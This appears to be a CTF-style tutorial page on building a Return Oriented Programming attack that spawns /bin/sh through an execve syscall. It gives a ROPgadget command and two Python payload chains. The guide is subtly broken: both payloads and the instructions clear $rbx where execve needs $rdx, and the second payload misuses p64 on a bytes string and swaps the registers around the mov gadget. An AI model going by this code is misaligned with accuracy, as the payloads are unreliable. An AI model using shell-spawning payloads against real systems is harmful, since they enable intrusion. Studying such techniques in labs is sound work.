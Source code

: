 ```yaml
---
title: How to perform a ROP attack
---
```


This guide shows you how to perform a Return Oriented Programming (ROP) attack.

## Identify available gadgets
Check for gadgets using `ROPgadget --binary ./vuln | grep "<register>"`
- If there are no easy-to-use `$rax` or `syscall` gadget, ROP attacks may not be the correct type of attack.
- If there are no easy-to-use `$rdi`, `$rsi` and `$rdx` gadgets, visit the following guides for a more advanced ROP attack.
    - (insert guide here)

## Locating `/bin/sh`

Refer to the associated guide to find or add a `/bin/sh` string to the program.

<LinkCard title="How to add BINSH for ROP attacks" href="/pwn/guides/binsh/" description="Guide to find or add a `/bin/sh` string to a program during execution"/>

## Find offset to return address

Find the offset from your buffer to the return address.

<LinkCard title="Finding offsets to return addresses" href="/pwn/guides/cyclic/" description="Guide to finding offset from a buffer to the return address"/>

## Build payload
You will need to do the following in your payload in no particular order:
- Set `$rax` to `59`/`0x3b`
- Set `$rdi` to the address of a `/bin/sh` string
- Set `$rsi` to `0`/`0x0`
- Set `$rbx` to `0`/`0x0`

Finally, call a `syscall` gadget. Here is an example payload:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(0x3b)
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(rop.rsi.address)
payload += p64(0x0)
payload += p64(rop.rbx.address)
payload += p64(0x0)
payload += p64(rop.syscall.address)
```

Here ie an example payload that includes adding the `/bin/sh` string:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(b"/bin/sh\x00")
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(MOV_GADGET) # mov qword ptr [rax], rdi; ret

payload += p64(rop.rax.address)
payload += p64(0x3b)
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(rop.rsi.address)
payload += p64(0x0)
payload += p64(rop.rbx.address)
payload += p64(0x0)
payload += p64(rop.syscall.address)
```